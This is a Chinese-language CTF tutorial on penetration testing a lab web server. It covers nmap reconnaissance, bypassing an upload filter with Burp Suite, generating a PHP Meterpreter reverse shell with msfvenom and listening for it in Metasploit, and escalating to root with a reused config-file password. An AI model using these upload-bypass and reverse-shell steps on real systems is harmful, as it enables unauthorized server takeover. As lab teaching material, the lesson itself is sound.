








# CTF入门课程：P26：网络安全基础入门

## 概述
在本节课中，我们将学习如何对一个存在安全漏洞的Web应用程序进行渗透测试。我们将从信息收集开始，逐步利用文件上传漏洞，绕过安全过滤机制，上传Web Shell，最终获取目标服务器的最高控制权（root权限），并找到Flag值。整个过程将涉及多种安全工具和漏洞利用技术。

## 实验环境介绍
在开始之前，我们先明确实验环境。
*   **攻击机IP地址**：`192.168.253.12`
*   **靶机IP地址**：`192.168.253.13`

我们的最终目标是获取靶机的root权限，在CTF比赛中，这通常意味着找到并读取Flag文件。





## 第一步：信息收集
渗透测试的第一步是对目标进行信息收集，了解其开放的服务和潜在的攻击面。

我们可以使用Nmap工具来扫描靶机。Nmap是一个强大的网络扫描工具，可以探测主机开放的端口、服务类型及版本信息。

以下是扫描命令示例：
```bash
nmap -sV 192.168.253.13
```
这条命令会发送探测数据包到靶机，并分析返回的信息，以确定开放的服务及其版本。



为了获取更全面的信息，我们可以使用Nmap的“全面扫描”模式：
```bash
nmap -A -T4 -v 192.168.253.13
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-T4`：指定扫描速度，T4为较快速度。
*   `-v`：显示详细输出信息。

通过扫描，我们可能发现靶机运行着Web服务（如Apache、Nginx）、数据库服务（如MySQL）等，这些信息是后续攻击的基础。

## 第二步：发现并利用文件上传漏洞
上一节我们介绍了信息收集，本节中我们来看看如何利用已发现的漏洞。假设通过之前的模糊测试，我们已经成功登录到目标系统的后台，并找到了一个文件上传功能点。

初步测试发现，该上传点允许直接上传图片文件（如`.jpg`），但会阻止上传`.php`等脚本文件。如果我们要上传PHP文件并执行其中的代码，就需要绕过服务器的上传过滤机制。





### 使用Burp Suite绕过上传过滤
Burp Suite是一个用于Web应用程序安全测试的集成平台。我们可以用它来拦截和修改浏览器发送的HTTP请求，从而尝试绕过前端或后端的验证。

以下是操作步骤：
1.  在浏览器中配置代理，指向Burp Suite。
2.  将一个恶意PHP文件（例如`shell.php`）重命名为`shell.jpg`，伪装成图片文件。
3.  在Burp Suite中开启代理拦截（Intercept）功能。
4.  在Web页面上传`shell.jpg`文件。
5.  此时HTTP请求会被Burp Suite截获。在请求数据包中，找到文件名部分（通常在`Content-Disposition`头中），将`shell.jpg`修改回`shell.php`。
6.  转发（Forward）修改后的数据包。



如果服务器仅对文件名进行简单检查，这种方法可能成功将PHP文件上传到服务器。



## 第三步：上传并执行Web Shell
成功绕过上传验证后，我们需要上传一个功能完整的Web Shell，以便在服务器上执行命令并建立反向连接。

### 生成反向Shell负载
我们需要在攻击机上生成一个PHP格式的反向Shell脚本，并启动一个监听器来接收靶机反弹回来的连接。

首先，在攻击机（例如Kali Linux）上使用Metasploit框架的`msfvenom`工具生成Payload：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```
*   `-p php/meterpreter/reverse_tcp`：指定生成PHP格式的Meterpreter反向TCP连接Payload。
*   `LHOST=192.168.253.12`：指定攻击机的IP地址，即Shell回连的目标。
*   `LPORT=4444`：指定攻击机的监听端口。
*   `-f raw`：指定输出格式为原始代码。
*   `> shell.php`：将生成的代码保存到`shell.php`文件。

**注意**：生成的`shell.php`文件开头可能包含`<?php /*`注释，需要用文本编辑器（如`gedit`或`vim`）将其删除，只保留有效的PHP代码。

### 启动监听器
在攻击机上，我们需要启动Metasploit的监听模块来等待靶机的连接。
1.  在终端输入`msfconsole`启动Metasploit框架。
2.  使用以下命令配置并启动监听器：
    ```bash
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```

### 上传Web Shell
现在，重复第二步的绕过上传流程，将生成的`shell.php`（重命名为`shell.jpg`后）上传到靶机。通过Burp Suite修改文件名，完成上传。

上传成功后，在浏览器中访问上传目录（例如`http://靶机IP/uploads/shell.php`）来触发Web Shell。此时，攻击机上的Metasploit监听器应该会收到一个来自靶机的Meterpreter会话。

## 第四步：权限提升与获取Flag
上一节我们成功获取了一个初始的Shell连接，本节中我们来看看如何提升权限并最终控制服务器。在Meterpreter会话中，我们可以执行系统命令。

首先，检查当前用户权限：
```bash
shell
id
```
命令可能返回类似`www-data`的用户，这通常是Web服务运行的低权限账户。

### 寻找提权线索
我们需要在系统中寻找可以提升权限的线索。例如：
*   检查是否有`sudo`权限：`sudo -l`
*   查看网站配置文件，寻找数据库密码等敏感信息：`cat /var/www/html/config.php`
*   尝试使用找到的密码切换到其他用户，如`su root`

假设在`config.php`中找到了MySQL数据库的root密码。我们可以尝试使用该密码来切换系统用户：
```bash
su root
# 输入从配置文件中找到的密码
```
如果密码正确，命令提示符会变成`#`，表示已获得root权限。

### 获取Flag
获得root权限后，就可以在文件系统中搜索Flag了。Flag通常位于根目录、用户主目录或特定题目目录下。
```bash
find / -name "*flag*" 2>/dev/null
cat /root/flag.txt
```
执行`cat`命令读取Flag文件内容，即完成了整个渗透测试过程。

## 总结与要点
本节课我们一起学习了完整的Web渗透测试流程：从信息收集开始，利用文件上传漏洞并绕过过滤机制，上传Web Shell获取初始访问权限，最后通过提权技术获得系统最高控制权并找到Flag。

以下是需要掌握的核心要点：
1.  **熟练掌握安全工具**：如Nmap用于信息收集，Burp Suite用于拦截和修改请求，Metasploit用于生成Payload和建立会话。
2.  **理解常见漏洞利用方式**：包括但不限于文件上传漏洞、SQL注入等。要明白如何发现、验证并利用它们。
3.  **清晰的渗透测试思路**：始终以获取目标权限（如root）或特定目标（如Flag）为导向，逐步深入，从外到内进行探测和利用。
4.  **注意CTF比赛目标**：在CTF比赛中，所有技术手段的最终目的都是获取Flag值，要时刻牢记这一目标。



通过不断练习和总结这些技术和思路，可以逐步提升在CTF比赛和实际安全测试中的能力。